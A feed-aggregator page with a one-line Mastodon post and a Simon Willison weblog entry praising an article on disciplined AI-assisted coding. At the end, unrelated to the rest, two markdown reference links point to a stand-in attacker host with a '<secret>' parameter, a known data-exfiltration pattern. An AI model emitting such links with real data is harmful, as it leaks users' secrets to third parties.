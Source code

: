 
**@Tomosino's Mastodon feed** (date: 2025-06-10, from: Tomosino's Mastodon feed)

<p>I'm craving peanut chews. Who's near Philly?</p> 

<br> 

<https://tilde.zone/@tomasino/114661224792417572>

---

## AI-assisted coding for teams that can't get away with vibes

date: 2025-06-10, updated: 2025-06-10, from: Simon Willison’s Weblog

<p><strong><a href="https://blog.nilenso.com/blog/2025/05/29/ai-assisted-coding/">AI-assisted coding for teams that can&#x27;t get away with vibes</a></strong></p>
This excellent piece by Atharva Raykar offers a bunch of astute observations on AI-assisted development that I haven't seen written down elsewhere.</p>
<blockquote>
<p><strong>Building with AI is fast</strong>. The gains in velocity are important, because when harnessed correctly, it allows teams to tighten feedback loops with users faster and make better products.</p>
<p>Yet, AI tools are tricky to use. Hold it wrong, and you can generate underwhelming results, worse still, slow down your velocity by drowning your project in slop and technical debt.</p>
</blockquote>
<p>Atharva notes that AI is a multiplier: the more expertise you have in software engineering, the better the results you can get from LLMs. Furthermore, <em>what helps the human helps the AI</em>.</p>
<p>This means good test coverage, automatic linting, continuous integration and deployment, good documentation practices and "clearly defined features, broken down into multiple small story cards".</p>
<p>If a team has all of this stuff in place, AI coding assistants will be able to operate more reliably and collaborate more effectively with their human overseers.</p>
<p>I enjoyed his closing thoughts about how heavier reliance on LLMs changes our craft:</p>
<blockquote>
<p>Firstly, It’s less valuable to spend too much time looking for and building sophisticated abstractions. DRY is useful for ensuring patterns in the code don’t go out of sync, but there are costs to implementing and maintaining an abstraction to handle changing requirements. LLMs make some repetition palatable and allow you to wait a bit more and avoid premature abstraction.</p>
<p>Redoing work is now extremely cheap. Code in the small is less important than structural patterns and organisation of the code in the large. You can also build lots of prototypes to test an idea out. For this, vibe-coding is great, as long as the prototype is thrown away and rewritten properly later. [...]</p>
<p>Tests are non-negotiable, and AI removes all excuses to not write them because of how fast they can belt them out. But always review the assertions!</p>
</blockquote>

    <p><small></small>Via <a href="https://lobste.rs/s/1qppei/ai_assisted_coding_for_teams_can_t_get_away">lobste.rs</a></small></p>


    <p>Tags: <a href="https://simonwillison.net/tags/ai-assisted-programming">ai-assisted-programming</a>, <a href="https://simonwillison.net/tags/llms">llms</a>, <a href="https://simonwillison.net/tags/ai">ai</a>, <a href="https://simonwillison.net/tags/generative-ai">generative-ai</a></p> 


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;